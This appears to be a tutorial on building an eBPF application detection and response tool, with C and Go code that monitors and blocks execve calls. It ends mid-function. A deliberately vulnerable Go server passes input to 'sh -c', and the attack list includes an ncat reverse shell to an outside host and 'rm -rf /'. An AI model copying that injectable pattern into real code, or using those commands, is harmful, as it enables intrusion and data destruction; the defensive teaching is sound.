






# eBPF-Based ADR: Real-time Application Defense

Modern web applications are complex ecosystems that interact with users on multiple levels, with each level potentially becoming an entry point for sophisticated attacks. Traditional perimeter security measures like WAF, firewalls, and IDS/IPS systems, while essential, often fall short of protecting against advanced threats that exploit application-level vulnerabilities.

This comprehensive guide demonstrates how to build a real-time Application Detection and Response (ADR) system using eBPF technology, providing unprecedented visibility and control over application behavior at the kernel level.

## Introduction

### Introduction to ADR

Application Detection & Response (ADR) represents a paradigm shift in application security, moving beyond traditional perimeter-based defenses to provide runtime protection directly within applications. Unlike conventional security tools that monitor network traffic or infrastructure, ADR operates at the application level, analyzing behavior in real time to detect and prevent attacks as they occur.



**Limitations of Traditional Security:**

1. **Network-Level Focus**: WAFs analyze HTTP traffic but lack application context
2. **High False Positives**: Without application logic understanding, many legitimate requests are flagged
3. **Evasion Vulnerability**: Attackers can bypass protection using encoding, obfuscation, or protocol manipulation
4. **Limited Visibility**: No insight into what happens inside the application after a request passes through

**ADR Advantages:**

- **Deep Analysis**: Monitors internal application behavior, not just network traffic
- **Context Awareness**: Understands application logic and legitimate vs. malicious behavior
- **Evasion Resistance**: Detects threats that bypass traditional WAF mechanisms
- **Automated Response**: Can automatically block malicious requests and alert administrators
- **Zero-Day Protection**: Behavioral analysis helps detect unknown attack patterns

### Introduction to eBPF

eBPF (Extended Berkeley Packet Filter) serves as the technological foundation for our ADR system, providing the capability to run custom programs directly in the Linux kernel space with unprecedented safety and performance.



**Why eBPF for ADR:**

- **Real-time Monitoring**: Intercepts system calls and security events as they happen
- **Minimal Overhead**: Runs directly in kernel space with JIT compilation
- **Safe Execution**: Comprehensive verification prevents system crashes
- **Flexible Filtering**: Can be programmed to detect specific attack patterns
- **Integration Ready**: Works with existing applications without code changes

## Example in Action

### Idea and Demonstration of Functionality

Let's examine a practical ADR implementation that demonstrates how eBPF can protect applications from Remote Code Execution (RCE) attacks. Our system uses a configuration-driven approach to define security policies and responds to threats in real time.

#### Configuration File

The ADR system uses a YAML configuration file to define monitoring and blocking rules:

```yaml
targets:
  - type: "command"
    value: "/usr/bin/whoami"
    actions:
      block: false
      monitor: true
  - type: "pid"
    value: 309413
    actions:
      monitor: true
      block: true
  - type: "uid"
    value: 1000
    actions:
      monitor: false
      block: false
```

**Configuration Structure Explanation:**

- **targets**: List of monitoring/blocking targets
- **type**: Target classification
  - `command`: Specific executable paths
  - `pid`: Process ID targeting
  - `uid`: User ID targeting
- **value**: The specific value for the target type
- **actions**: Available responses
  - `monitor`: Log execution events
  - `block`: Prevent execution

**Key Features:**

- **Real-time Updates**: Configuration changes apply immediately without restart
- **Priority-based Rules**: Command → PID → UID evaluation order
- **Flexible Actions**: Mix monitoring and blocking as needed

#### Priority of Rule Application

The system evaluates rules in a specific priority order to ensure consistent behavior:



1. **Command Priority**: Highest priority, checked first
2. **PID Priority**: Process-specific rules
3. **UID Priority**: User-based rules as fallback

#### Example Vulnerable Application

Consider a simple web server with an RCE vulnerability:

```go
// Vulnerable web server example
package main

import (
    "fmt"
    "net/http"
    "os/exec"
    "log"
)

func handler(w http.ResponseWriter, r *http.Request) {
    cmd := r.URL.Query().Get("cmd")
    if cmd == "" {
        fmt.Fprintf(w, "Usage: /?cmd=command")
        return
    }

    // VULNERABLE: Direct command execution without validation
    output, err := exec.Command("sh", "-c", cmd).Output()
    if err != nil {
        fmt.Fprintf(w, "Error: %v", err)
        return
    }

    fmt.Fprintf(w, "Output: %s", output)
}

func main() {
    http.HandleFunc("/", handler)
    log.Println("Server starting on :8080")
    http.ListenAndServe(":8080", nil)
}
```

**Attack Scenarios:**

- `http://localhost:8080/?cmd=whoami` - Information gathering
- `http://localhost:8080/?cmd=ncat 10.10.10.10 9001 -e sh` - Reverse shell
- `http://localhost:8080/?cmd=rm -rf /` - System destruction

#### Before Enabling ADR



**Without ADR Protection:**

1. Attacker sends malicious command
2. Server executes command without restriction
3. System becomes compromised
4. No detection or prevention mechanisms

#### After Enabling ADR



**With ADR Protection:**

1. Malicious command intercepted at syscall level
2. ADR evaluates command against security rules
3. Unauthorized command blocked before execution
4. Security event logged for analysis
5. System remains protected

## Implementation of the eBPF Program

Our eBPF program operates at two critical points: monitoring system calls for detection and intercepting them for prevention. Let's examine the complete implementation.

### Core Data Structures and Constants

```c
#include <linux/bpf.h>
#include <bpf/bpf_helpers.h>
#include <bpf/bpf_core_read.h>

// Configuration constants
#define MAX_CMD_LEN 32
#define ARG_SIZE 64
#define MAX_ARGS 6
#define FULL_MAX_ARGS_ARR (MAX_ARGS * ARG_SIZE)
#define LAST_ARG (FULL_MAX_ARGS_ARR - ARG_SIZE)

// System call structure for execve
struct trace_event_raw_sys_enter {
    char unused1[16];                    // Padding for alignment
    long unsigned int args[MAX_ARGS];   // System call arguments
};

// Task structure for process information
typedef struct {
    unsigned int val;
} kuid_t;

struct task_struct {
    struct task_struct *real_parent;
    __u32 tgid;
};

// Event structure for user space communication
struct event {
    __u32 uid;                          // User ID
    __u32 pid;                          // Process ID
    __u32 ppid;                         // Parent Process ID
    __u32 args_count;                   // Number of arguments
    __u32 args_size;                    // Total size of arguments
    char command[MAX_CMD_LEN];          // Command name
    char args[FULL_MAX_ARGS_ARR];       // Command arguments
};
```

**Design Considerations:**

- **Memory Efficiency**: Fixed-size structures for predictable memory usage
- **Safety**: Padding ensures proper alignment for kernel compatibility
- **Extensibility**: Modular design allows easy feature additions

### eBPF Maps for Data Storage and Communication

```c
// Ring buffer for real-time event streaming
struct {
    __uint(type, BPF_MAP_TYPE_RINGBUF);
    __uint(max_entries, 1 << 24);       // 16 MB buffer
} events SEC(".maps");

// Target key structure for rule matching
struct TargetKey {
    __u8 type;                          // 'c'=command, 'u'=UID, 'p'=PID
    __u8 reserved[3];                   // Alignment padding
    union {
        char command[MAX_CMD_LEN];      // Command path
        __u32 id;                       // UID or PID
    };
};

// Target value with bit-encoded actions
typedef __u8 TargetValue;
// Bit layout: [7|6|5|4|3|2|M|B]
// M = Monitor bit, B = Block bit
// 00 = No action, 01 = Block only, 10 = Monitor only, 11 = Monitor and Block

// Hash map for security rules
struct {
    __uint(type, BPF_MAP_TYPE_HASH);
    __type(key, struct TargetKey);
    __type(value, TargetValue);
    __uint(max_entries, 1024);
} targets SEC(".maps");

// Helper functions for bit manipulation
static __always_inline int is_monitored(TargetValue val) {
    return (val & 0b10) >> 1;          // Check monitor bit
}

static __always_inline int is_blocked(TargetValue val) {
    return val & 0b01;                 // Check block bit
}
```

**Map Design Benefits:**

- **Ring Buffer**: High-performance, low-latency event streaming
- **Hash Map**: O(1) lookup time for rule evaluation
- **Bit Encoding**: Memory-efficient action storage
- **Union Types**: Flexible key structure for different target types

### Rule Evaluation Logic

```c
// Check if action should be applied based on priority order
static __always_inline int check_action(__u32 ppid, __u32 uid, char *command,
                                       int (*action_check)(TargetValue),
                                       __u8 *action_type) {
    struct TargetKey key = {};
    TargetValue *value;

    // Priority 1: Check command-based rule
    key.type = 'c';
    bpf_probe_read_kernel_str(&key.command, sizeof(key.command), command);
    value = bpf_map_lookup_elem(&targets, &key);
    if (value && action_check(*value)) {
        *action_type = 'c';
        return 1;
    }

    // Priority 2: Check PID-based rule
    key.type = 'p';
    key.id = ppid;
    value = bpf_map_lookup_elem(&targets, &key);
    if (value && action_check(*value)) {
        *action_type = 'p';
        return 1;
    }

    // Priority 3: Check UID-based rule
    key.type = 'u';
    key.id = uid;
    value = bpf_map_lookup_elem(&targets, &key);
    if (value && action_check(*value)) {
        *action_type = 'u';
        return 1;
    }

    return 0;  // No matching rule found
}
```

**Rule Evaluation Features:**

- **Priority-based**: Command → PID → UID evaluation order
- **Flexible Actions**: Separate functions for monitoring vs. blocking
- **Type Tracking**: Records which rule type matched for debugging
- **Fail-safe**: Defaults to allow if no rules match

### System Call Monitoring Implementation

```c
SEC("tracepoint/syscalls/sys_enter_execve")
int monitor_syscalls(struct trace_event_raw_sys_enter *ctx) {
    // Process identification
    __u32 pid = bpf_get_current_pid_tgid() >> 32;
    struct task_struct *task = (struct task_struct *)bpf_get_current_task();
    __u32 ppid = BPF_CORE_READ(task, real_parent, tgid);
    __u32 uid = bpf_get_current_uid_gid();

    // Initialize event structure
    struct event evt = {0};
    evt.pid = pid;
    evt.uid = uid;
    evt.ppid = ppid;

    // Extract command path
    char *path_ptr = (char *)BPF_CORE_READ(ctx, args[0]);
    if (bpf_probe_read_str(&evt.command, sizeof(evt.command), path_ptr) < 0) {
        return 0;
    }

    // Check if monitoring is required
    __u8 action_type;
    int result = check_action(ppid, uid, evt.command, is_monitored, &action_type);
    if (result == 0) {
        return 0;  // No monitoring required
    }

    // Extract command arguments
    const char **args = (const char **)(ctx->args[1]);
    const char *argp;
    int ret;

    // Process first argument (command path)
    ret = bpf_probe_read_user_str(evt.args, ARG_SIZE, (const char *)ctx->args[0]);
    if (ret < 0) return 0;

    if (ret <= ARG_SIZE) {
        evt.args_size += ret;
    } else {
        evt.args[0] = '\0';
        evt.args_size++;
    }
    evt.args_count++;

    // Process additional arguments
    #pragma unroll
    for (__u32 i = 1; i < MAX_ARGS; i++) {
        ret = bpf_probe_read_user(&argp, sizeof(argp), &args[i]);
        if (ret < 0) break;

        if (evt.args_size > LAST_ARG) break;

        ret = bpf_probe_read_user_str(&evt.args[evt.args_size], ARG_SIZE, argp);
        if (ret < 0) break;

        evt.args_count++;
        evt.args_size += ret;
    }

    // Send event to user space
    void *ringbuf_data = bpf_ringbuf_reserve(&events, sizeof(evt), 0);
    if (!ringbuf_data) return 0;

    __builtin_memcpy(ringbuf_data, &evt, sizeof(evt));
    bpf_ringbuf_submit(ringbuf_data, 0);

    return 0;
}
```

### Security Enforcement Implementation

```c
// Linux security module structures
struct linux_binprm {
    char unused1[72];
    struct cred *cred;
    char unused2[24];
    const char *filename;
    char unused3[312];
};

struct cred {
    char unused1[8];
    kuid_t uid;
};

// LSM hook for blocking execution
SEC("lsm/bprm_check_security")
int BPF_PROG(enforce_execve, struct linux_binprm *bprm, int ret) {
    if (ret != 0) return ret;  // Already blocked by another LSM

    // Extract process information
    __u32 cred_uid = -1;
    char current_comm[MAX_CMD_LEN] = {0};
    bpf_probe_read_kernel(&cred_uid, sizeof(cred_uid), &bprm->cred->uid.val);
    bpf_probe_read_kernel_str(&current_comm, sizeof(current_comm), bprm->filename);

    struct task_struct *task = (struct task_struct *)bpf_get_current_task();
    __u32 ppid = BPF_CORE_READ(task, real_parent, tgid);

    // Check if execution should be blocked
    __u8 action_type;
    int result = check_action(ppid, cred_uid, current_comm, is_blocked, &action_type);
    if (result) {
        return -1;  // Block execution with EPERM
    }

    return ret;  // Allow execution
}

char LICENSE[] SEC("license") = "GPL";
```

**Security Features:**

- **Early Interception**: Blocks execution before process creation
- **Credential Validation**: Verifies user permissions
- **Return Code Handling**: Respects existing security decisions
- **Minimal Impact**: Only blocks when necessary

### Complete eBPF Program Code

<details>
<summary>Click to view the complete eBPF program</summary>

```c
//go:build ignore

#include <linux/bpf.h>
#include <bpf/bpf_helpers.h>
#include <bpf/bpf_core_read.h>

#define MAX_CMD_LEN 32
#define ARG_SIZE 64
#define MAX_ARGS 6
#define FULL_MAX_ARGS_ARR (MAX_ARGS * ARG_SIZE)
#define LAST_ARG (FULL_MAX_ARGS_ARR - ARG_SIZE)

struct trace_event_raw_sys_enter {
    char unused1[16];
    long unsigned int args[MAX_ARGS];
};

typedef struct {
    unsigned int val;
} kuid_t;

struct task_struct {
    struct task_struct *real_parent;
    __u32 tgid;
};

struct event {
    __u32 uid;
    __u32 pid;
    __u32 ppid;
    __u32 args_count;
    __u32 args_size;
    char command[MAX_CMD_LEN];
    char args[FULL_MAX_ARGS_ARR];
};

struct {
    __uint(type, BPF_MAP_TYPE_RINGBUF);
    __uint(max_entries, 1 << 24);
} events SEC(".maps");

struct TargetKey {
    __u8 type;
    __u8 reserved[3];
    union {
        char command[MAX_CMD_LEN];
        __u32 id;
    };
};

typedef __u8 TargetValue;

struct {
    __uint(type, BPF_MAP_TYPE_HASH);
    __type(key, struct TargetKey);
    __type(value, TargetValue);
    __uint(max_entries, 1024);
} targets SEC(".maps");

static __always_inline int is_monitored(TargetValue val) {
    return (val & 0b10) >> 1;
}

static __always_inline int is_blocked(TargetValue val) {
    return val & 0b01;
}

static __always_inline int check_action(__u32 ppid, __u32 uid, char *command,
                                       int (*action_check)(TargetValue),
                                       __u8 *action_type) {
    struct TargetKey key = {};
    TargetValue *value;

    key.type = 'c';
    bpf_probe_read_kernel_str(&key.command, sizeof(key.command), command);
    value = bpf_map_lookup_elem(&targets, &key);
    if (value && action_check(*value)) {
        *action_type = 'c';
        return 1;
    }

    key.type = 'p';
    key.id = ppid;
    value = bpf_map_lookup_elem(&targets, &key);
    if (value && action_check(*value)) {
        *action_type = 'p';
        return 1;
    }

    key.type = 'u';
    key.id = uid;
    value = bpf_map_lookup_elem(&targets, &key);
    if (value && action_check(*value)) {
        *action_type = 'u';
        return 1;
    }

    return 0;
}

SEC("tracepoint/syscalls/sys_enter_execve")
int monitor_syscalls(struct trace_event_raw_sys_enter *ctx) {
    int ret;
    __u32 pid = bpf_get_current_pid_tgid() >> 32;
    struct task_struct *task = (struct task_struct *)bpf_get_current_task();
    __u32 ppid = BPF_CORE_READ(task, real_parent, tgid);
    struct event evt = {0};
    __u32 uid = bpf_get_current_uid_gid();

    char *path_ptr = (char *)BPF_CORE_READ(ctx, args[0]);
    if (bpf_probe_read_str(&evt.command, sizeof(evt.command), path_ptr) < 0)
        return 0;

    __u8 action_type;
    int result = check_action(ppid, uid, evt.command, is_monitored, &action_type);
    if (result == 0)
        return 0;

    evt.pid = pid;
    evt.uid = uid;
    evt.ppid = ppid;
    evt.args_count = 0;
    evt.args_size = 0;

    const char **args = (const char **)(ctx->args[1]);
    const char *argp;

    ret = bpf_probe_read_user_str(evt.args, ARG_SIZE, (const char *)ctx->args[0]);
    if (ret < 0)
        return 0;
    if (ret <= ARG_SIZE) {
        evt.args_size += ret;
    } else {
        evt.args[0] = '\0';
        evt.args_size++;
    }

    evt.args_count++;

    #pragma unroll
    for (__u32 i = 1; i < MAX_ARGS; i++) {
        ret = bpf_probe_read_user(&argp, sizeof(argp), &args[i]);
        if (ret < 0)
            break;

        if (evt.args_size > LAST_ARG)
            break;

        ret = bpf_probe_read_user_str(&evt.args[evt.args_size], ARG_SIZE, argp);
        if (ret < 0)
            break;

        evt.args_count++;
        evt.args_size += ret;
    }

    ret = bpf_probe_read_user(&argp, sizeof(argp), &args[MAX_ARGS]);
    if (ret < 0)
        return 0;

    evt.args_count++;

    void *ringbuf_data = bpf_ringbuf_reserve(&events, sizeof(evt), 0);
    if (!ringbuf_data)
        return 0;

    __builtin_memcpy(ringbuf_data, &evt, sizeof(evt));
    bpf_ringbuf_submit(ringbuf_data, 0);

    return 0;
}

struct linux_binprm {
    char unused1[72];
    struct cred *cred;
    char unused2[24];
    const char *filename;
    char unused3[312];
};

struct cred {
    char unused1[8];
    kuid_t uid;
};

SEC("lsm/bprm_check_security")
int BPF_PROG(enforce_execve, struct linux_binprm *bprm, int ret) {
    if (ret != 0)
        return ret;

    __u32 cred_uid = -1;
    char current_comm[MAX_CMD_LEN] = {0};
    bpf_probe_read_kernel(&cred_uid, sizeof(cred_uid), &bprm->cred->uid.val);
    bpf_probe_read_kernel_str(&current_comm, sizeof(current_comm), bprm->filename);
    struct task_struct *task = (struct task_struct *)bpf_get_current_task();
    __u32 ppid = BPF_CORE_READ(task, real_parent, tgid);

    __u8 action_type;
    int result = check_action(ppid, cred_uid, current_comm, is_blocked, &action_type);
    if (result)
        return -1;

    return ret;
}

char LICENSE[] SEC("license") = "GPL";
```

</details>

## Program Implementation in Go

The user-space Go program manages the eBPF programs, handles configuration, and processes security events. It provides real-time monitoring and dynamic rule updates.

### Core Data Structures and Configuration

```go
//go:generate go run github.com/cilium/ebpf/cmd/bpf2go -cc clang -cflags $BPF_CFLAGS Adr adr.c

package main

import (
    "encoding/binary"
    "errors"
    "fmt"
    "log"
    "os"
    "os/signal"
    "strings"
    "syscall"
    "time"
    "unsafe"

    "github.com/cilium/ebpf"
    "github.com/cilium/ebpf/link"
    "github.com/cilium/ebpf/ringbuf"
    "github.com/cilium/ebpf/rlimit"
    "github.com/fsnotify/fsnotify"
    "gopkg.in/yaml.v2"
)

// Configuration structures
type Config struct {
    Targets []Target `yaml:"targets"`
}

type Target struct {
    Type    string  `yaml:"type"`
    Value   interface{} `yaml:"value"`
    Actions Actions `yaml:"actions"`
}

type Actions struct {
    Monitor bool `yaml:"monitor"`
    Block   bool `yaml:"block"`
}

// Event structure matching eBPF program
type Event struct {
    UID       uint32
    PID       uint32
    PPID      uint32
    ArgsCount uint32
    ArgsSize  uint32
    Command   [32]byte
    Args      [384]byte
}

// eBPF map key structure
type TargetKey struct {
    Type     uint8
    Reserved [3]uint8
    Data     [32]byte
}
```

### eBPF Program Management

```go
func main() {
    configFile := "config.yaml"
    if len(os.Args) > 1 {
        configFile = os.Args[1]
    }

    // Load initial configuration
    var config Config
    if err := loadConfig(configFile, &config); err != nil {
        log.Fatalf("Error loading config: %v", err)
    }

    // Remove memory limits for eBPF
    if err := rlimit.RemoveMemlock(); err != nil {
        log.Fatalf("Failed to remove memlock: %v", err)
    }

    // Load eBPF objects
    var objs adrObjects
    if err := loadAdrObjects(&objs, nil); err != nil {
        log.Fatalf("Error loading eBPF objects: %v", err)
    }
    defer objs.Close()

    // Populate initial rules
    currentTargets := populateMap(objs.Targets, config, nil)

    // Start configuration file watcher
    go watchConfig(configFile, objs.Targets, currentTargets)

    // Attach eBPF programs
    if err := attachPrograms(objs); err != nil {
        log.Fatalf("Failed to attach eBPF programs: %v", err)
    }

    // Start event processing
    if err := processEvents(objs.Events); err != nil {
        log.Fatalf("Error processing events: %v", err)
    }
}

func attachPrograms(objs adrObjects) error {
    // Attach monitoring program
    monProg := objs.MonitorSyscalls
    monLnk, err := link.Tracepoint("syscalls", "sys_enter_execve", monProg, nil)
    if err != nil {
        return fmt.Errorf("failed to attach monitor program: %v", err)
    }
    defer monLnk.Close()

    // Attach enforcement program
    lsmProg := objs.EnforceExecve
    lsmLnk, err := link.AttachLSM(link.LSMOptions{
        Program: lsmProg,
    })
    if err != nil {
        return fmt.Errorf("failed to attach LSM program: %v", err)
    }
    defer lsmLnk.Close()

    log.Println("eBPF programs attached successfully.")

    // Keep programs running
    sig := make(chan os.Signal, 1)
    signal.Notify(sig, syscall.SIGINT, syscall.SIGTERM)
    <-sig

    return nil
}
```

### Configuration Management and Real-time Updates

```go
func loadConfig(filename string, config *Config) error {
    data, err := os.ReadFile(filename)
    if err != nil {
        return err
    }
    return yaml.Unmarshal(data, config)
}

func populateMap(targetsMap *ebpf.Map, config Config, currentTargets map[TargetKey]uint8) map[TargetKey]uint8 {
    newTargets := make(map[TargetKey]uint8)

    for _, target := range config.Targets {
        key := TargetKey{}
        var value uint8

        // Set action bits
        if target.Actions.Monitor {
            value |= 0b10  // Set monitor bit
        }
        if target.Actions.Block {
            value |= 0b01  // Set block bit
        }

        switch target.Type {
        case "command":
            key.Type = 'c'
            if cmdStr, ok := target.Value.(string); ok {
                copy(key.Data[:], cmdStr)
                newTargets[key] = value
            }

        case "pid":
            key.Type = 'p'
            var pidValue uint32
            switch v := target.Value.(type) {
            case int:
                pidValue = uint32(v)
            case uint32:
                pidValue = v
            case float64:
                pidValue = uint32(v)
            }
            binary.LittleEndian.PutUint32(key.Data[:4], pidValue)
            newTargets[key] = value

        case "uid":
            key.Type = 'u'
            var uidValue uint32
            switch v := target.Value.(type) {
            case int:
                uidValue = uint32(v)
            case uint32:
                uidValue = v
            case float64:
                uidValue = uint32(v)
            }
            binary.LittleEndian.PutUint32(key.Data[:4], uidValue)
            newTargets[key] = value
        }
    }

    // Update eBPF map
    updateEBPFMap(targetsMap, currentTargets, newTargets)

    log.Printf("Loaded %d targets from configuration", len(newTargets))
    return newTargets
}

func updateEBPFMap(targetsMap *ebpf.Map, oldTargets, newTargets map[TargetKey]uint8) {
    // Remove old entries
    for key := range oldTargets {
        if _, exists := newTargets[key]; !exists {
            targetsMap.Delete(unsafe.Pointer(&key))
        }
    }

    // Add/update new entries
    for key, value := range newTargets {
